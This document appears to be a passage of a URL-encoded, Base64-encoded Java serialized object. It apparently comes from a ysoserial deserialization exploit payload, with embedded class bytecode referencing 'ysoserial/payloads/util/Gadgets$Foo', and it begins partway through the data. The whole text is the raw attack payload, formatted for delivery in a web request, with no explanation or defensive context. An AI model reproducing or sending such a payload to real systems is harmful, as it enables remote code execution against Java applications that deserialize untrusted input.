6ChkKtgAEEhm2AAZNLAS2AAcsGQq2AAg6CxkLtgAEEhoDvQAbtgAcGQsDvQAdtgAeOgwZC7YABBIfBL0AG1kDEiBTtgAcGQsEvQAdWQMSIVO2AB7AACA6BhkGxgFXGQa2ACKaAU8ZDLYABBIjBL0AG1kDsgAkU7YAHBkMBL0AHVkDuwAlWREAyLcAJlO2AB5XEie4ACi2ACkSKrYADJkAGQa9ACBZAxIrU1kEEixTWQUZBlOnABYGvQAgWQMSLVNZBBIuU1kFGQZTOg27AC9ZuwAwWRkNtwAxtgAytgAztwA0EjW2ADa2ADe2ADg6DhI5uAA6Og8ZD7YAOzoHGQ8SPAa9ABtZAxI9U1kEsgAkU1kFsgAkU7YAPhkHBr0AHVkDGQ5TWQS7ACVZA7cAJlNZBbsAJVkZDr63ACZTtgAeVxkMtgAEEj8EvQAbWQMZD1O2ABwZDAS9AB1ZAxkHU7YAHlenAE46DxJBuAA6OhAZEBJCBL0AG1kDEj1TtgA%2BGRAEvQAdWQMZDlO2AB46BxkMtgAEEj8EvQAbWQMZEFO2ABwZDAS9AB1ZAxkHU7YAHlcEOxqZAAanAAmECQGn%2Fi8amQAGpwARpwAIOgWnAAOEBAGn%2FTKnAARLsQAIAJUAoACjABIAwwDRANQAEgITAoYCiQBAAC4AOQLtAEMAPABXAu0AQwBaAHoC7QBDAH0C5wLtAEMAAAL4AvsAQwADAEkAAAD%2BAD8AAAANAAIADgAJAA8AEwAQABgAEQAkABIALgAUADQAFQA8ABYAQwAXAFoAGABlABkAagAaAHIAGwB9ABwAiAAdAI0AHgCVACAAoAAjAKMAIQClACIAtgAkALsAJQDDACcA0QAqANQAKADWACkA4QArAOYALADuAC0A%2BQAuAP4ALwEMADABGwAxASYAMgExADMBNgA0AT4ANQFXADYBfQA3AYoAOAG1ADkB8AA6AhMAPAIaAD0CIQA%2BAmQAPwKGAEQCiQBAAosAQQKSAEICsgBDAtQARQLWAEcC3QAwAuMASQLqAEwC7QBKAu8ASwLyABIC%2BABQAvsATwL8AFEASgAAANQAFQClABEAWwBcAAgA1gALAFsAXAAIAhoAbABdAF4ADwKSAEIAXQBeABACiwBJAF8AYAAPAfAA5gBhAGIADQITAMMAYwBkAA4BJgG3AGUAZgAKAT4BnwBnAGYACwFXAYYAaABmAAwBDwHUAGkAagAJADQCtgBrAGwABQBDAqcAbQBuAAYAcgJ4AG8AZgAHAQwB3gBwAHEACALvAAMAWwByAAUAJwLRAHMAagAEAAIC9gB0AHUAAAAJAu8AdgB3AAEAEwLlAHgAeQACACQC1AB6AHsAAwB8AAAAqAAX%2FwAnAAUBBwB9BwB%2BBwAJAQAA%2FAAUBwB%2F%2FAAaBwCAAvwAIgcAgWUHAIISXQcAggz9AC0HAIMB%2FgDLBwCBBwCBBwCBUgcAhP8AmgAPAQcAfQcAfgcACQEHAH8HAIAHAIEHAIMBBwCBBwCBBwCBBwCEBwA9AAEHAIX7AEr5AAH4AAb6AAX%2FAAYABQEHAH0HAH4HAAkBAABCBwCGBP8ABQAAAABCBwCGAAABAIcAAAACAIh1cQB%2BAAgAAAHUyv66vgAAADQAGwoAAwAVBwAXBwAYBwAZAQAQc2VyaWFsVmVyc2lvblVJRAEAAUoBAA1Db25zdGFudFZhbHVlBXHmae48bUcYAQAGPGluaXQ%2BAQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAANGb28BAAxJbm5lckNsYXNzZXMBACVMeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRGb287AQAKU291cmNlRmlsZQEADEdhZGdldHMuamF2YQwACgALBwAaAQAjeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRGb28BABBqYXZhL2xhbmcvT2JqZWN0AQAUamF2YS9pby9TZXJpYWxpemFibGUBAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzACEAAgADAAEABAABABoABQAGAAEABwAAAAIACAABAAEACgALAAEADAAAAC8AAQABAAAABSq3AAGxAAAAAgANAAAABgABAAAAxwAOAAAADAABAAAABQAPABIAAAACABMAAAACABQAEQAAAAoAAQACABYAEAAJcHQACFFGRk9UUE5LcHcBAHh1cQB%2BABcAAAAuMCwCFAwX5S7APhQ4izd4lbmElzSsGwPIAhQjbSl2yl%2BZ2D9orIbcp8HsL7ieqHQAA0RTQXhwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHB4AAAAAAAAAGRweA%3D%3D
```

